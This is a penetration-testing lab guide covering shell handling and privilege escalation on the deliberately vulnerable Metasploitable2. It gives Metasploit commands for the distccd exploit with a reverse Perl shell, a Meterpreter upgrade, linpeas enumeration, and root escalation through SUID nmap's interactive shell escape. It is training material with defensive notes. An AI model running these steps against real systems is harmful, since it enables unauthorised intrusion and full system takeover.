




# Exploitation Techniques 2 — Shell Handling & Privilege Escalation (30–35 Minutes)

> Lab Type: Exploitation Techniques  
> Tool: Metasploit Framework (msfconsole), linpeas.sh  
> Duration: 30–35 Minutes  
> System: Kali Linux (attacker), Metasploitable2 (target)

---

## Lab Overview

Part 1 covered getting a shell. This lab covers what happens after — handling a low-privilege shell properly, enumerating a target for weaknesses, and escalating to root. Every exploit in Part 1 happened to land root directly, which skips the part of the workflow that matters most in a real engagement: most initial footholds are low-privilege, and getting from there to full control is its own skill.

You'll exploit a service that only grants a low-privilege shell, upgrade that shell into a full Meterpreter session, enumerate the target for privilege escalation paths, and use a SUID misconfiguration to escalate to root.

---

## Learning Objectives

By the end of this lab you will be able to:

- Exploit a service to obtain a genuinely low-privilege shell
- Upgrade a bare command shell into a full Meterpreter session
- Run automated enumeration (linpeas, local exploit suggester) to identify privilege escalation paths
- Recognize and exploit a SUID misconfiguration to escalate to root
- Interpret automated tool output critically rather than trusting the first suggestion blindly

---

## Scenario

Metasploitable2 also runs a distributed compiler daemon (distccd, port 3632) alongside the services from Part 1. Unlike the vsftpd and Samba exploits, distccd only grants access as an unprivileged system user (`daemon`) — a much more realistic starting point for practicing privilege escalation.

---

## Establishing a Low-Privilege Foothold

### Objective

Exploit distccd to obtain a shell as a non-root user.

### Steps

1. In `msfconsole`:

   ```
   use exploit/unix/misc/distcc_exec
   set payload cmd/unix/reverse_perl
   set RHOSTS <target-ip>
   set LHOST <kali-ip>
   exploit
   ```

2. Confirm the privilege level:

   ```
   whoami
   ```

   

!!! warning
This module's default payload (`cmd/unix/reverse_bash`) relies on bash's `/dev/tcp` redirection, which fails if the target's `sh` isn't bash-compatible — it errors with `Bad file descriptor` and no session opens. `cmd/unix/reverse_python` also isn't a valid payload option for this specific module. `cmd/unix/reverse_perl` is the reliable choice here, since Perl is present on Metasploitable2 by default.

3. Background the session — **Ctrl+Z**, then `y` to confirm.

---

## Upgrading to a Full Session

### Objective

Convert the bare command shell into a Meterpreter session for reliable file transfer and command handling.

### Steps

1. Check the session ID, then upgrade it:

   ```
   sessions -l
   sessions -u <id>
   ```

2. Confirm the new session:

   ```
   sessions -l
   sessions -i <meterpreter-id>
   getuid
   ```

   

!!! warning
The classic manual TTY upgrade (`python3 -c 'import pty; pty.spawn("/bin/bash")'` followed by Ctrl+Z and `stty raw -echo; fg`) is unreliable when the shell is running inside an `msfconsole` session: Ctrl+Z inside `sessions -i` backgrounds the *Metasploit session*, not the underlying terminal job, so the suspend never reaches a real shell to resume from. Mismatched `stty` state left over from a failed attempt can also leave a terminal unresponsive to all input. `sessions -u <id>` achieves the same goal — a fully interactive, stable session — without any manual terminal handling.

### Discussion Questions

??? question "Why upgrade a working command shell to Meterpreter at all?"

    A bare command shell has no built-in file transfer, process migration, or channel management — everything has to be scripted around it manually (e.g. standing up a separate HTTP server just to move a file over). Meterpreter provides all of this natively (`upload`, `download`, `shell`, `execute`), which is why it's worth the upgrade step even though the underlying access level doesn't change.

---

## Enumeration

### Objective

Identify a viable privilege escalation path using automated tooling.

### Steps

1. From the `meterpreter >` prompt, upload and run linpeas.sh:

   ```
   upload <local-path>/linpeas.sh /tmp/linpeas.sh
   shell
   chmod +x /tmp/linpeas.sh
   /tmp/linpeas.sh
   ```

!!! warning
linpeas.sh is a large automated recon script — expect a long, colorized wall of output, and let it run to completion (a couple of minutes) rather than assuming it's hung partway through. A line like `Regexes to search for API keys aren't activated, use param '-r'` is informational, not a prompt waiting on input.

2. Back at `msf6 >`, background the Meterpreter session and run the local exploit suggester for a more targeted result:

   ```
   background
   use post/multi/recon/local_exploit_suggester
   set SESSION <meterpreter-id>
   run
   ```

   

### Discussion Questions

??? question "Why cross-check linpeas findings against the local exploit suggester instead of trusting one tool?"

    linpeas surfaces raw indicators (misconfigurations, readable files, suspicious permissions) without judging exploitability against known CVEs; the local exploit suggester checks the target against Metasploit's actual exploit database and reports which ones are plausible given the specific kernel version and architecture. Using both together — broad indicators from one, targeted validation from the other — gives a more reliable picture than either alone.

??? question "Why did most of the suggester's 'Yes' results turn out to be less useful than expected?"

    Many results flagged as potentially vulnerable target architectures or kernel branches this box doesn't match (this target is 32-bit / i686), or check only for the presence of a binary without validating the version is actually exploitable. Automated tools report on plausibility, not certainty — the SUID `nmap` binary finding is the one that held up because it doesn't depend on kernel version or architecture at all.

---

## Privilege Escalation — SUID Nmap

### Objective

Exploit a SUID-set nmap binary to escalate to root.

### Steps

1. Get back into a shell on the target:

   ```
   sessions -i <meterpreter-id>
   shell
   ```

2. Confirm the SUID bit:

   ```
   ls -la /usr/bin/nmap
   ```

   An `s` in place of the owner-execute bit (e.g. `-rwsr-xr-x`) means the binary always runs as its owner — root — regardless of who launches it.

3. Use nmap's interactive mode to escape to a shell:

   ```
   /usr/bin/nmap --interactive
   ```

   At the `nmap>` prompt:

   ```
   !sh
   whoami
   ```

   

!!! warning
Metasploit's own `exploit/unix/local/setuid_nmap` module exists for this same technique, but on this target it defaults to an x64 Meterpreter payload and fails silently (`Exploit completed, but no session was created`) because this target is 32-bit (i686). Doing the escape manually, as above, sidesteps the mismatch entirely and demonstrates the underlying technique more directly.

### Discussion Questions

??? question "Why does a SUID bit on a binary like nmap matter for privilege escalation?"

    SUID makes a binary execute with its owner's privileges rather than the invoking user's. Utilities that can spawn a subshell or execute arbitrary commands (nmap's interactive mode, among many others) become a direct root escalation path when SUID-set, since the spawned shell inherits the SUID process's elevated privileges.

??? question "Why is it a bad idea to leave utilities like nmap SUID-set on a production system?"

    Very few administrative tools genuinely require SUID to function, and any tool with a built-in command-execution or interactive-shell feature turns SUID into an instant root escalation path for any user who can run it. The general defense is running `find / -perm -4000` periodically to audit SUID binaries and removing the bit from anything that doesn't strictly need it.

---

## Learning Outcomes

Having completed this lab, you have:

- Exploited a service to obtain a genuinely low-privilege shell, distinct from the root-level access in Part 1
- Upgraded a bare command shell into a full Meterpreter session without relying on fragile manual terminal tricks
- Run and cross-referenced automated enumeration tools (linpeas, local exploit suggester) to identify a viable privesc path
- Exploited a SUID misconfiguration in `/usr/bin/nmap` to escalate to root
- Practiced evaluating automated tool output critically rather than accepting the first suggested exploit at face value
